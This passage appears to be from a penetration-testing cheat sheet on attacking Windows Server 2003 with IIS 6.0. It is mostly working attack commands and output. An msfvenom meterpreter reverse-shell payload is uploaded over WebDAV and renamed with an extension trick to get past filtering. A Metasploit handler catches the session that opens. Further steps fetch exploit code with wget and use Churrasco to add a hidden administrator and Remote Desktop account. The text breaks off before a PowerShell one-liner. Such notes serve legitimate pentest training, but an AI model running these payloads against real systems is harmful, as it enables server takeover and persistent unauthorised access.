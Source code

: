 *   Windows Server 2003 and IIS 6.0 WEBDAV Exploiting [http://www.r00tsec.com/2011/09/exploiting-microsoft-iis-version-60.html](http://web.archive.org/web/20171113221652/http://www.r00tsec.com/2011/09/exploiting-microsoft-iis-version-60.html)

         msfvenom -p windows/meterpreter/reverse_tcp LHOST=1.2.3.4 LPORT=443 -f asp > aspshell.txt

         cadavar http://$ip
         dav:/> put aspshell.txt
         Uploading aspshell.txt to `/aspshell.txt':
         Progress: [=============================>] 100.0% of 38468 bytes succeeded.
         dav:/> copy aspshell.txt aspshell3.asp;.txt
         Copying `/aspshell3.txt' to `/aspshell3.asp%3b.txt':  succeeded.
         dav:/> exit

         msf > use exploit/multi/handler
         msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
         msf exploit(handler) > set LHOST 1.2.3.4
         msf exploit(handler) > set LPORT 80
         msf exploit(handler) > set ExitOnSession false
         msf exploit(handler) > exploit -j

         curl http://$ip/aspshell3.asp;.txt

         [*] Started reverse TCP handler on 1.2.3.4:443 
         [*] Starting the payload handler...
         [*] Sending stage (957487 bytes) to 1.2.3.5
         [*] Meterpreter session 1 opened (1.2.3.4:443 -> 1.2.3.5:1063) at 2017-09-25 13:10:55 -0700

*   Windows privledge escalation exploits are often written in Python. So, it is necessary to compile the using pyinstaller.py into an executable and upload them to the remote server.

         pip install pyinstaller
         wget -O exploit.py http://www.exploit-db.com/download/31853  
         python pyinstaller.py --onefile exploit.py

*   Windows Server 2003 and IIS 6.0 privledge escalation using impersonation:

    [https://www.exploit-db.com/exploits/6705/](http://web.archive.org/web/20171113221652/https://www.exploit-db.com/exploits/6705/)

    [https://github.com/Re4son/Churrasco](http://web.archive.org/web/20171113221652/https://github.com/Re4son/Churrasco)

         c:\Inetpub>churrasco
         churrasco
         /churrasco/-->Usage: Churrasco.exe [-d] "command to run"

         c:\Inetpub>churrasco -d "net user /add <username> <password>"
         c:\Inetpub>churrasco -d "net localgroup administrators <username> /add"
         c:\Inetpub>churrasco -d "NET LOCALGROUP "Remote Desktop Users" <username> /ADD"

*   Windows MS11-080 - [http://www.exploit-db.com/exploits/18176/](http://web.archive.org/web/20171113221652/http://www.exploit-db.com/exploits/18176/)

          python pyinstaller.py --onefile ms11-080.py  
          mx11-080.exe -O XP

*   Powershell Exploits - You may find that some Windows privledge escalation exploits are written in Powershell. You may not have an interactive shell that allows you to enter the powershell prompt. Once the powershell script is uploaded to the server, here is a quick one liner to run a powershell command from a basic (cmd.exe) shell:
